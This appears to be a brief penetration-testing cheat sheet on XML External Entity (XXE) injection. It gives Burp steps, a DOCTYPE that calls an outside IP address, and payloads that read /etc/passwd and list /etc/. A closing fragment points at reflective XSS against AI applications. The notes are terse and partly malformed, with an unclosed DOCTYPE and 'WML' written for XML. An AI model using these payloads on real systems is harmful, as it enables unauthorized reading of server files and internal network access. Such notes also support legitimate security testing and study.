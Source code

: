 
WML External Entity (XXE) injection

Mess with an application's processing of XML data.
- view data
- interact with backend
- using ssrf to access backend


1. Use Convert to XML in Burp and modify the XML data
2. We can try changing the `Content-Type:` to `text/xml`
3. Add a doctype: `<!DOCTYPE test SYSTEM "http://10.21.31.111:8000/hello">`

 


### Examples

```sh
<!--?xml version="1.0" ?-->
<!DOCTYPE replace [<!ENTITY example SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd"> ]>
<data>&example;</data>
```

Might work in java based apps? https://book.hacktricks.xyz/pentesting-web/xxe-xee-xml-external-entity
```sh
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root [<!ENTITY xxe SYSTEM "file:///etc/" >]
```


AI:
reflective xss in ai
